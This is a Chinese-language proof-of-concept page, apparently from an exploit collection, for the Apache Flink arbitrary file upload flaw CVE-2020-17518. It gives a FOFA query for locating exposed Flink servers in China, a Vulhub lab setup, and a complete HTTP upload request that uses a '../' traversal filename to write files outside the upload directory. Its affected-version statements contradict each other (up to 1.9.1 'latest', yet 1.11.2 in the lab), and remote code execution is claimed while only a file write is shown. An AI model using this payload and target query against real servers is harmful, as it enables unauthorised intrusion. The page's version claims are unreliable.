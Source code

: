 # Apache Flink 小于1.9.1远程代码执行 CVE-2020-17518

## 漏洞描述

Apache Flink 是一个开源流处理框架，具有强大的流处理和批处理能力。

Apache Flink 1.5.1 引入了一个 REST 处理程序，可以通过恶意修改的 HTTP HEADER 将上传的文件写入本地文件系统上的任意位置。

Apache Flink的任意Jar包上传可以导致远程代码执行。

参考：

- https://github.com/apache/flink/commit/a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4
- https://nvd.nist.gov/vuln/detail/CVE-2020-17518

## 漏洞影响

```
Apache Flink  <= 1.9.1(最新版本)
```

## FOFA

```
app="Apache-Flink" && country="CN"
```

## 环境搭建

Vulhub执行以下命令启动 Apache Flink jobmanager 1.11.2：

```
docker-compose up -d
```

Apache Flink 启动后，访问`http://your-ip:8081`查看主页。

## 漏洞复现

### 上传文件

使用以下请求将文件上传到`/tmp/awesome_poc`：

```
POST /jars/upload HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/awesome_poc"

success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--
```

![image-20220223163924462](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231639569.png)

查看docker，`/tmp/awesome_poc`成功创建。

![image-20220223164054096](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231640168.png)

